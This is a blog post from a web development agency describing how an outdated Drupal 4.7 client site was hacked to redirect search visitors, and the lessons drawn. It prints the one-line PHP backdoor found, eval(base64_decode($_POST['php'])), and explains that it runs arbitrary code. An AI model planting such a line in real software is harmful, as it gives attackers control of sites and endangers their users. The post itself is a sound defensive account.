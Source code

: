 ```yaml
---
title: 'Lessons Learned from a Hacked Website'
templateKey: blog-post
date: 2011-12-28T15:35:52.000Z
category: Development, Drupal
alias: lessons-learned-hacked-website
summary: > 
 Within the last couple of months one of our client’s websites was hacked. This is a rarity, and we responded swiftly to restore a previous version of the site; however, we still needed to get rid of the actual problem. Through the experience there were a number of lessons learned that anyone, whether client or developer could benefit from. 
author: Art Williams
image: /assets/hacking_0.jpg
---
```


Within the last couple of months one of our client’s websites was hacked. This is a rarity, and we responded swiftly to restore a previous version of the site; however, we still needed to get rid of the actual problem. Through the experience there were a number of lessons learned that anyone, whether client or developer could benefit from. 

Reason the site was hacked
--------------------------

The story starts with a website that was built by Digett over five years ago. When you consider that the first website ever was created on August 6, 1991, a five year-old website today is 25% as old as the entire World Wide Web — that’s a long time for a website to live.

The more substantial statistic is that in its five-year existence, this site had never been updated, and was still running version 4.7 of the Drupal content management system (the current stable version of Drupal is version 7). The site allows visitors to post pictures and text to the site without needing to login to the site, a kind of activity that is especially difficult to insulate against hacking attempts. These factors combined into the perfect storm, and the site was hacked.

Type of hack
------------

Whenever a user typed the address to the site into their browser they made it to the site and could navigate as if there was no problem; but users who searched for the site on Google or any other search engine were redirected to the hacker’s website when they clicked on the search result.

The nature of this hack made it difficult to detect. Typically those most familiar with a site, such as the owner and the developer, will just enter the address directly and see nothing wrong with the site — only on the rare chance that someone close to the site searches for it will the hack be detected.

Resolution
----------

After repeated attempts to clean the site just to see it re-hacked the next day, we were able to convince the client that the best course of action was to update the site. The site was upgraded to Drupal 7, which would take a few blog posts to describe, and we thought we were in the clear.

The site remained clean for a week or so, only to be hacked yet again. By this point we wanted to pull our hair out. We started from the beginning and began to systematically eliminate possibilities. We changed database passwords, FTP passwords, and Drupal login credentials. We cleaned the database of all ‘php’, ‘script’, and ‘perl’ strings. And each morning we arrived to a newly hacked site. This went on for two days.

On the third day, after half a dozen runs through the file system looking for malicious code, we finally tracked down the culprit — a single php file with one line of code:

    
    eval(base64_decode($_POST["php"]))
    

Once removed the site has remained clean for a couple of weeks now.

_(For those who are interested, this code allows someone who knows the location of the file to attach any php code they want as the value of the ‘php’ key in the attribute string of the url. In short they can run any php code they want. It’s bad stuff!)_

A learning experience
---------------------

In my opinion the age of the site code base was the underlying reason for the initial hack. Once that was updated the site vulnerabilities were eliminated. The only thing left was a sneaky and tenacious line of malicious code that had survived the upgrade process.

Anyone still running a site on Drupal 4.7 is playing with fire, but sometimes it’s hard to convince clients who have spent good money on a professional site that it’s time to do it again.

### Lessons for clients

*   Budget the money to keep your site code up to date with the latest security patches. Ask your developer how much is needed and how often it should be done. I touched on [reasons to update your Drupal site](/blog/08/31/2011/case-upgrading-your-drupal-website) earlier this year.
*   Talk with your site developer about other possible security concerns that should be addressed. With this site we were dealing with I would prefer from a security standpoint that users be required to login to the site before posing images and text. If that isn’t possible, then work out the limitations to what anonymous users are allowed to post and clamp down on everything else.

### Lessons for developers

*   Prepare your clients during the initial sales process for the ongoing maintenance costs of your particular framework. Then you won’t find yourself in the position of trying to convince clients to upgrade five years later.
*   Have a plan for the eventuality of a site getting hacked. Have backups and build a checklist of your procedure to make sure no malicious code sneaks past you.

This whole experience was rather painful for the client and us, but if we can learn these lessons and prevent other clients and developers from making these mistakes, then at least our experience was worth it.

If you are a client of Digett or any other web development company and you are not sure if your site is being kept up to date through a maintenance retainer, contact your developer now and ask how to get that issue resolved.